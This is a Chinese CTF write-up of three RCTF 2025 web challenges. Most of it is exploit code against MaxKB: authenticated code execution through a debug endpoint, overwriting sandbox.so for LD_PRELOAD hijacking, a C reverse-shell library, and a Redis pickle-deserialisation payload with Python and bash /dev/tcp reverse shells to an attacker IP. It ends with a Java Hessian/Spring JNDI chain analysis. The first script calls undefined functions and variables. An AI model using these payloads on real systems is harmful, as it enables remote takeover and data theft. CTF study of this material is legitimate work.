本文记录 RCTF 2025 的三道 Web 题：RootKB、RootKB-- 和 maybe_easy，分别涉及动态库劫持、Redis 反序列化与 Java 反序列化利用链。

## RootKB

看到解题情况时有些惊讶：最新版本已有 7～8 解，低版本却是 0 解。


在 PyCharm 中对比 v2.3.1 和 v2.3.0，发现新版本加入了 `sandbox.so` 和 `LD_PRELOAD` 环境变量，而且 `sandbox.so` 可以被覆盖。因此可以尝试通过 `LD_PRELOAD` 劫持执行。



开发者用 `sandbox.so` 修复了 SSRF，却又引入了 RCE，这修法让人有点摸不着头脑。


### 利用脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
MaxKB RCE Exploit - Complete Attack Chain
增加：远程写文件功能 write_remote_file()
"""

import requests
import json
import sys
import os
import base64
import textwrap
# Target configuration
TARGET_URL = "http://web-rootkb-minusminus-54b389641de5.rctf.rois.team"
USERNAME = "admin"
PASSWORD = "MaxKB@123.."

# API endpoints
API_BASE = f"{TARGET_URL}/admin/api"
TOOL_DEBUG_API = f"{API_BASE}/workspace/default/tool/debug"

# Session setup
session = requests.session()
session.headers.update({
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
    'Content-Type': 'application/json',
    'Accept': 'application/json'
})


def login():
    """Login to MaxKB and get JWT token"""
    login_data = {
        "username": USERNAME,
        "password": PASSWORD,
        "captcha": ""
    }
    login_api = f"{API_BASE}/user/login"

    try:
        resp = session.post(login_api, json=login_data)
        if resp.status_code == 200:
            result = resp.json()
            if 'data' in result and result['data'] and 'token' in result['data']:
                token = result['data']['token']
                session.headers['AUTHORIZATION'] = f'Bearer {token}'
                print(f"[+] Login successful!")
                print(f"[+] JWT Token: {token[:50]}...")
                return True
            else:
                print(f"[-] Login failed: {result}")
                return False
        else:
            print(f"[-] Login request failed: {resp.status_code}")
            return False
    except Exception as e:
        print(f"[-] Login error: {e}")
        return False


def execute_python_code(code):
    """Execute Python code through tool debug endpoint"""
    payload = {
        "code": code,
        "input_field_list": [],
        "init_field_list": [],
        "init_params": {},
        "debug_field_list": []
    }

    try:
        resp = session.post(TOOL_DEBUG_API, json=payload)
        if resp.status_code == 200:
            result = resp.json()
            print(result)
            return result.get('data', 'No data returned')
        else:
            return f"HTTP {resp.status_code}: {resp.text}"
    except Exception as e:
        return f"Exception: {e}"


def execute_system_command(cmd):
    """Execute system command using Python equivalents"""
    if cmd == "id":
        code = """def get_id():
        import os
        return f"uid={os.getuid()}({os.environ.get('USER', 'unknown')}) gid={os.getgid()}"
        return get_id()"""
    elif cmd == "ls /":
        code = """def ls_root():
        import os
        items = os.listdir('/')
        items.sort()
        return "\\n".join(items)
        return ls_root()"""
    elif cmd.startswith("cat "):
        filepath = cmd.split(" ", 1)[1]
        code = f"""def read_file():
        try:
            with open('{filepath}', 'r') as f:
                return f.read()
        except Exception as e:
            return f"Error: {{str(e)}}"
        return read_file()"""
    else:
        # Generic command execution（这里只是示例，用 os.listdir 代替）
        code = f"""def run_cmd():
        import os
        try:
            return str(os.listdir('{cmd}'))
        except Exception as e:
            return f"Command execution failed: {{e}}"
        return run_cmd()"""

    return execute_python_code(code)


# ========= 新增：远程写文件功能 =========
def write_remote_file(remote_path, b64_content, mode="wb"):
    """
    在目标机器上写二进制文件（从 base64 字符串解码）
    :param remote_path: 目标文件路径，例如 '/tmp/pwned.bin'
    :param b64_content: base64 编码后的内容（str）
    :param mode: 文件模式，默认 'wb'，可以传 'ab' 追加二进制
    """
    code = f"""def write_file():
        import base64
        path = {remote_path!r}
        b64_data = {b64_content!r}
        mode = {mode!r}
        try:
            data = base64.b64decode(b64_data)
            with open(path, mode) as f:
                f.write(data)
            return f"OK: wrote {{len(data)}} bytes to {{path}} with mode={{mode}}"
        except Exception as e:
            return f"Error writing to {{path}}: {{e}}"
        return write_file()"""

    return execute_python_code(code)
# ======================================

def execute_redis_command(host, port, password, command):
    """
    在目标机器上执行 Redis 命令
    :param host: Redis 服务器地址
    :param port: Redis 服务器端口
    :param password: Redis 密码，如果没有则为 None
    :param command: 要执行的 Redis 命令，以字符串形式提供，例如 "KEYS *" 或 "GET mykey"
    :return: 命令执行结果或错误信息
    """
    code = f"""def redis_cmd_runner():
        try:
            import redis
            import json
        except ImportError:
            return "Error: 'redis' library not found on the target system."

    # 将外部传入的参数赋值给内部变量
        redis_host = {host!r}
        redis_port = {port}
        redis_password = {password!r} # 如果 password 为 None，!r 会正确处理成 'None'
        command_str = {command!r}
    
        try:
        # 建立 Redis 连接
        # decode_responses=False 是默认行为，我们会手动解码，以更好地处理潜在的编码错误
            r = redis.Redis(host=redis_host, port=redis_port, password=redis_password, db=0)
        # 测试连接
            r.ping()
        
        # 将命令字符串拆分成列表，以便传递给 execute_command
            command_parts = command_str.split()
        
        # 执行命令
            raw_result = r.execute_command(*command_parts)
        
        # Redis 的返回结果通常是 bytes 或 list of bytes，需要解码
            def decode_redis_result(item):
                if isinstance(item, bytes):
                    return item.decode('utf-8', 'ignore') # 使用 ignore 以免遇到非 utf8 字符时崩溃
                elif isinstance(item, list):
                    return [decode_redis_result(i) for i in item]
                else:
                    return item # 对于数字等类型，直接返回

            result = decode_redis_result(raw_result)
        
        # 以 JSON 格式返回，统一输出
            return json.dumps(result, indent=2, ensure_ascii=False)

        except Exception as e:
            return f"Redis Error: {{e}}"

        return redis_cmd_runner()"""
    return execute_python_code(code)

def get_environment_variables():
    """
    在目标机器上获取并返回所有环境变量
    """
    code = f"""def dump_env_vars():
        import os
    
        try:
            env_data = str(os.environ)
            path = "/opt/maxkb-app/sandbox/env.txt"
            with open(path, 'w', encoding='utf-8') as f:
                f.write(env_data)
            return env_data
        except Exception as e:
            return f"Error getting environment variables: {{e}}"

        return dump_env_vars()"""
    return execute_python_code(code)

def main():
    """Main exploitation function"""
    print("=" * 60)
    print("MaxKB RCE Exploit - Complete Attack Chain")
    print("=" * 60)
    print(f"[+] Target: {TARGET_URL}")
    print(f"[+] Username: {USERNAME}")
    print(f"[+] Exploit endpoint: {TOOL_DEBUG_API}")

    # Step 1: Login
    print("\n[+] Step 1: Authentication")
    if not login():
        print("[-] Exploit failed - cannot login")
        return

    # Step 2: Test basic code execution
    print("\n[+] Step 2: Remote Code Execution")
    print("\n[*] Testing code execution:")
    code = """def test():
    return "RCE confirmed - Code execution successful!"
    return test()"""
    result = execute_python_code(code)
    print(f"[Result] {result}")

    # Step 3: System Command Execution
    print("\n[+] Step 3: System Command Execution")
    commands = ["""/opt/maxkb-app/sandbox/""", "echo 123"]

    for cmd in commands:
        print(f"\n[*] Executing: {cmd}")
        result = execute_system_command(cmd)
        print(f"[Output]\n{result}")

    # 新增：写文件测试
    print("\n[+] Step 3.5: Remote File Write Test")
    test_path = "/opt/maxkb-app/sandbox/sandbox.so"
    with open("revshell.so", "rb") as f:
        raw = f.read()

    b64_str = base64.b64encode(raw).decode("ascii")
    result = write_remote_file(test_path, b64_str)
    print(f"[Write Result] {result}")

    # 顺便读回来看是否写入成功
    print("\n[*] Read back the written file:")
    read_back = execute_system_command(f"cat {test_path}")
    print(f"[File Content]\n{read_back}")

   
    
    
       # ========= 新增步骤：与数据库交互 =========
    print("\n[+] Step 5: PostgreSQL Database Interaction")
    
    # !!! 关键 !!!
    # 这里的连接字符串需要你自己去发现。
    # 通常可以通过读取配置文件获得，例如：
    # execute_system_command("cat /opt/maxkb-app/conf/application.yml")
    # 假设我们通过某种方式得知了以下连接信息
    db_conn_str = "dbname='maxkb' user='root' host='127.0.0.1' password='Password123@postgres'"
    print(f"[*] Using DB connection string (example): {db_conn_str}")

    # 示例 1: 列出所有数据库
    print("\n[*] Query 1: Listing all databases...")
    list_db_query = "SELECT datname FROM pg_database WHERE datistemplate = false;"
    result = query_postgresql(db_conn_str, list_db_query)
    print(f"[Result]\n{result}")
    
       # ========= 新增步骤：与 Redis 服务交互 =========
    print("\n[+] Step 6: Redis Service Interaction")

    # !!! 关键 !!!
    # Redis 的连接信息也需要通过读取配置文件或其他方式来发现
    # 比如在 application.yml 中可能会有 spring.redis.host, spring.redis.port 等
    redis_host = "127.0.0.1"
    redis_port = 6379
    redis_password = "Password123@redis"  # 如果有密码，替换成 "your_redis_password"
    
    # 定义一组想要执行的 Redis 命令
    redis_commands = [
        "INFO",         # 获取 Redis 服务器信息，可以确认连接和服务版本
        "KEYS *",       # 列出所有的 key，这是最常用的探测命令
        "GET flag",     # 尝试获取一个名为 'flag' 的 key 的值
        "HGETALL user:1", # 假设有一个哈希表存储用户信息，获取所有字段和值
        "set "
    ]
    
    for cmd in redis_commands:
        print(f"\n[*] Executing Redis command: '{cmd}'")
        result = execute_redis_command(redis_host, redis_port, redis_password, cmd)
        print(f"[Result]\n{result}")

    # ==========================================
    if exploit_result and "Success" in exploit_result:
        print(f"[+] {exploit_result}")
        print("[!] On a vulnerable version, this could lead to RCE!")
    else:
        print(f"[-] {exploit_result}")
        
    print("\n" + "=" * 60)
    print("[+] EXPLOIT FINISHED")
    print("=" * 60)


if __name__ == "__main__":
    main()

```

```c
// 文件名: revshell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

// 这是一个构造函数，当 .so 文件被加载时，它会自动运行。
void _revshell_init(void) __attribute__((constructor));

void _revshell_init(void) {
    // --- 在这里修改为你自己的 IP 和端口 ---
    const char *ip = "xxxx"; // <--- 修改这里
    const int port = 9999;               // <--- 修改这里
    // ------------------------------------

    int sockfd;
    struct sockaddr_in addr;

    // 1. 创建一个 socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        // 创建失败，安静地退出
        return;
    }

    // 2. 设置要连接的目标地址和端口
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    // 将 IP 地址字符串转换为网络格式
    if (inet_pton(AF_INET, ip, &addr.sin_addr) <= 0) {
        close(sockfd);
        return;
    }

    // 3. 连接到攻击者的监听器
    if (connect(sockfd, (struct sockaddr *)&addr, sizeof(addr)) < 0) {
        close(sockfd);
        return;
    }

    // 4. I/O 重定向：这是最关键的一步
    // 将标准输入(0)、标准输出(1)和标准错误(2)全部重定向到我们的 socket
    dup2(sockfd, 0); // STDIN
    dup2(sockfd, 1); // STDOUT
    dup2(sockfd, 2); // STDERR

    // 5. 启动一个 shell
    // execve 会用 /bin/sh 进程替换掉当前进程
    // 因为我们已经重定向了 I/O，这个 shell 的所有输入输出都会通过 socket 传输
    execve("/bin/sh", NULL, NULL);

    // 如果 execve 成功，下面的代码将不会被执行
    close(sockfd);
}
```

在 VPS 上接收 Shell，获得 FLAG。


## RootKB--

Python 沙箱绕过我还不熟悉，不过可以利用 Redis 触发 pickle 反序列化。下面是利用脚本。


### 利用脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
MaxKB RCE Exploit - Complete Attack Chain
增加：远程写文件功能 write_remote_file()
增加：Redis Pickle 注入功能 inject_pickle_payload()
修正：修复了所有 'return' outside function 的语法错误
"""

import requests
import json
import sys
import os
import base64
import textwrap
import pickle
import subprocess
# Target configuration
TARGET_URL = "http://xxx:8030/"
USERNAME = "admin"
PASSWORD = "MaxKB@123.."

# API endpoints
API_BASE = f"{TARGET_URL}/admin/api"
TOOL_DEBUG_API = f"{API_BASE}/workspace/default/tool/debug"

# Session setup
session = requests.session()
session.headers.update({
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
    'Content-Type': 'application/json',
    'Accept': 'application/json'
})


def login():
    """
    Login to MaxKB and get JWT token.
    Returns the token string on success, None on failure.
    """
    login_data = {
        "username": USERNAME,
        "password": PASSWORD,
        "captcha": ""
    }
    login_api = f"{API_BASE}/user/login"

    try:
        resp = session.post(login_api, json=login_data)
        if resp.status_code == 200:
            result = resp.json()
            if 'data' in result and result['data'] and 'token' in result['data']:
                token = result['data']['token']
                session.headers['AUTHORIZATION'] = f'Bearer {token}'
                print(f"[+] Login successful!")
                print(f"[+] JWT Token: {token[:50]}...")
                return token
            else:
                print(f"[-] Login failed: {result}")
                return None
        else:
            print(f"[-] Login request failed: {resp.status_code}")
            return None
    except Exception as e:
        print(f"[-] Login error: {e}")
        return None


def execute_python_code(code):
    """Execute Python code through tool debug endpoint"""
    payload = {
        "code": code,
        "input_field_list": [],
        "init_field_list": [],
        "init_params": {},
        "debug_field_list": []
    }

    try:
        resp = session.post(TOOL_DEBUG_API, json=payload)
        if resp.status_code == 200:
            result = resp.json()
            # print(result) # Uncomment for deep debugging
            if result.get('code') != 200:
                print(f"[-] Server-side error: {result.get('message')}")
            return result.get('data', 'No data returned')
        else:
            return f"HTTP {resp.status_code}: {resp.text}"
    except Exception as e:
        return f"Exception: {e}"

# ======================================
# ========= 新增：Pickle注入功能 =========
# ======================================
class PickleRCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        # 返回一个可调用对象和其参数
        return (subprocess.call, (["python3","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'],))

def inject_pickle_payload(redis_host, redis_port, redis_password, token, command):
    """
    Generates a pickle payload and injects it into Redis via the RCE vulnerability.
    """
    print(f"[*] Crafting pickle payload to execute command: '{command}'")
    
    pickle_payload = pickle.dumps(PickleRCE(command))
    b64_payload = base64.b64encode(pickle_payload).decode('ascii')
    redis_key = f":TOKEN:{token}"
    print(f"[*] Target Redis key will be: {redis_key}")
    
    remote_code = f"""
def set_pickle_in_redis():
    import redis
    import base64
    
    try:
        r = redis.Redis(host={redis_host!r}, port={redis_port}, password={redis_password!r}, db=0)
        redis_key = {redis_key!r}
        b64_payload = {b64_payload!r}
        pickle_data = base64.b64decode(b64_payload)
        r.set(redis_key, pickle_data)
        return f"OK: Successfully wrote {{len(pickle_data)}} bytes of pickle data to key '{{redis_key}}'."
    except Exception as e:
        return f"Redis Error: {{e}}"

set_pickle_in_redis() # <-- FIX: Removed 'return' from here
"""
    print("[*] Sending payload to remote server to inject into Redis...")
    return execute_python_code(remote_code)


def execute_system_command(cmd):
    """Execute system command using a robust method."""
    # Using subprocess is generally better than os.system for capturing output
    code = f"""
def run_cmd():
    import subprocess
    import shlex
    
    command = {cmd!r}
    try:
        # Use shlex.split for better argument handling
        args = shlex.split(command)
        result = subprocess.run(args, capture_output=True, text=True, timeout=10)
        
        output = result.stdout if result.stdout else ""
        error = result.stderr if result.stderr else ""
        
        if output or error:
            return f"STDOUT:\\n{{output}}\\nSTDERR:\\n{{error}}"
        else:
            return "Command executed with no output."
            
    except FileNotFoundError:
        return f"Error: Command not found or path does not exist."
    except Exception as e:
        return f"Command execution failed: {{e}}"

run_cmd() # <-- FIX: Removed 'return' from here
"""
    return execute_python_code(code)


def main():
    """Main exploitation function"""
    print("=" * 60)
    print("MaxKB RCE Exploit - Complete Attack Chain")
    print("=" * 60)
    print(f"[+] Target: {TARGET_URL}")

    # Step 1: Login
    print("\n[+] Step 1: Authentication")
    token = login()
    if not token:
        print("[-] Exploit failed - cannot login")
        return
        
    # Optional Step: Test basic code execution
    print("\n[*] Testing basic code execution...")
    test_code = """
def test():
    return "RCE confirmed - Code execution successful!"
test()
""" # <-- FIX: Removed 'return' from here too
    result = execute_python_code(test_code)
    print(f"[Result] {result}")
    if "RCE confirmed" not in str(result):
        print("[-] Basic RCE test failed. Aborting.")
        return

    # ==========================================================
    # ========= 核心利用步骤：注入Pickle Payload到Redis =========
    # ==========================================================
    print("\n[+] Step 2: Injecting Pickle Payload into Redis for RCE")

    # Configure Redis connection info
    redis_host = "127.0.0.1"
    redis_port = 6379
    redis_password = "Password123@redis"

    # Define the command you want to execute on the target server
    command_to_execute = "bash -c 'bash -i >& /dev/tcp/YOUR_ATTACKER_IP/YOUR_PORT 0>&1'"
    # Or for a simple test:
    # command_to_execute = "touch /tmp/pwned_by_pickle"
    
    # Call the injection function
    result = inject_pickle_payload(redis_host, redis_port, redis_password, token, command_to_execute)
    print(f"[Injection Result] {result}")

    if "OK:" in str(result):
        print("\n[+] Pickle payload injected successfully!")
        print("[*] The next time the application deserializes this token from Redis,")
        print(f"[*] the command '{command_to_execute}' should be executed on the server.")
        print("[*] You may need to trigger this by making another authenticated request or simply waiting.")
        print("[*] If using a reverse shell, make sure your listener (e.g., 'nc -lvnp YOUR_PORT') is running.")
    else:
        print("\n[-] Failed to inject pickle payload.")
        
    print("\n[+] You can now try to verify if the command was executed (if you used a non-interactive command).")
    print("[*] For example, checking if the file '/tmp/pwned_by_pickle' exists:")
    
    verification_result = execute_system_command("ls -l /tmp/pwned_by_pickle")
    print(f"[Verification Result]\n{verification_result}")
    
    print("\n" + "=" * 60)
    print("[+] EXPLOIT FINISHED")
    print("=" * 60)


if __name__ == "__main__":
    main()
```

## maybe_easy

这是一道经典的 Java 反序列化题，可以先复习 [SU18 师傅的文章](https://su18.org/post/hessian/)。

```java
static {
    WHITE_PACKAGES.add("com.rctf.server.tool.");
    WHITE_PACKAGES.add("java.util.");
    WHITE_PACKAGES.add("org.apache.commons.logging.");
    WHITE_PACKAGES.add("org.springframework.beans.");
    WHITE_PACKAGES.add("org.springframework.jndi.");
}
```

### 白名单与利用链分析

观察白名单发现，它与 `Spring AOP` 和 `Spring Context & AOP` 两条链子关系很大，最终利用方向很可能是 JNDI。


题目提供的 `Maybe` 类实现了 `Comparable`，其中的 `compareTo` 方法会调用代理处理器。因此可以选择 `TreeMap` 作为入口，通过它触发 `compareTo`。

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.rctf.server.tool;

import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

public class Maybe extends Proxy implements Comparable<Object>, Serializable {
    public Maybe(InvocationHandler h) {
        super(h);
    }

    public int compareTo(Object o) {
        try {
            Method method = Comparable.class.getMethod("compareTo", Object.class);
            Object result = this.h.invoke(this, method, new Object[]{o});
            return (Integer)result;
        } catch (Throwable e) {
            throw new RuntimeException(e);
        }
    }
}
```

在 IDEA 中查找白名单内实现了 `InvocationHandler` 接口的类，找到了下面三个。



`EarlySingletonInvocationHandler` 看起来没有合适的利用点。



`ServiceLocatorInvocationHandler` 最终会触发 `args[0]` 的 `toString()` 方法，利用难度较大。







参考 Spring1 链，可以让 `ObjectFactoryDelegatingInvocationHandler` 触发自定义 `ObjectFactory` 的 `getObject()` 方法。



接着找到 `TargetBeanObjectFactory`。`SimpleJndiBeanFactory` 实现了 `BeanFactory` 接口，其 `getBean()` 方法会触发 `lookup`，可以用来串起后续调用。





